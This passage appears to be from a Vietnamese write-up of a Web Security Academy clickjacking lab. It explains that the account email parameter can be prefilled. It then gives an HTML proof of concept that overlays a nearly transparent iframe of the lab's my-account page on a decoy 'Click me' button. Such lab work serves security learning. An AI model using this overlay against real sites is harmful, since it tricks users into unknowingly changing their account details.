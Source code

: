 ![alt text](image-1.png)

Nhờ đó ta có thể thao túng được email đưa vào, và người dùng chỉ cần click là sẽ sập bẫy. 
```html
<style>
    iframe {
        position:relative;
        width:1000px;
        height: 700px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top:470px;
        left:60px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0ae1008b0404d4d2856f555b000d00cb.web-security-academy.net/my-account?email=abcde@gmail.net"></iframe>
```